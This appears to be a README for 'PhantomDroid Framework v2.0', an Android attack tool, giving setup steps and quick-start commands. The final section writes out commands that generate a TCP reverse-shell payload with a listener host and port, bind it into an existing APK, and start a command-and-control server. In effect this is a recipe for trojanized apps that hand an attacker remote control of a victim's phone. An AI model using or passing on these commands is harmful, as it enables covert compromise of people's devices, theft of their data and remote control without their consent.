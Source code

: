 # 🚀 How to Run PhantomDroid Framework v2.0

**Created by: M DHARAN RAJ - Web Developer & Ethical Hacker**

## 📋 Prerequisites

### For Windows (Your Current System)
1. **Install Python 3.8+**
   - Download from: https://python.org/downloads/
   - Make sure to check "Add Python to PATH"

2. **Install Java Development Kit (JDK)**
   - Download OpenJDK 11+: https://adoptium.net/
   - Set JAVA_HOME environment variable

3. **Install Android SDK Tools**
   - Download Android Studio or SDK tools
   - Add to PATH: `platform-tools` and `build-tools`

4. **Install Git Bash** (for shell script execution)
   - Download from: https://git-scm.com/download/win

## 🎯 Quick Start Guide

### Step 1: Setup Environment
```bash
# Open Git Bash or PowerShell as Administrator
cd "d:/VS Code/AndroPhantom"

# Install Python dependencies
pip install flask cryptography requests lxml beautifulsoup4 pillow

# Make scripts executable (Git Bash)
chmod +x phantomdroid.sh
chmod +x install.sh
```

### Step 2: Run PhantomDroid

#### Option A: Interactive Shell Mode (Recommended)
```bash
# In Git Bash
./phantomdroid.sh

# Or in PowerShell
bash phantomdroid.sh
```

#### Option B: Direct Python Execution
```bash
# Generate payload directly
python core/payload_generator.py --type tcp_reverse --lhost 192.168.1.100 --lport 4444

# Bind to APK
python core/apk_binder.py --apk original.apk --lhost 192.168.1.100 --lport 4444 --method 1

# Start C2 server
python core/c2_server.py --port 8080 --protocol 1

# Start web interface
python core/web_interface.py
```
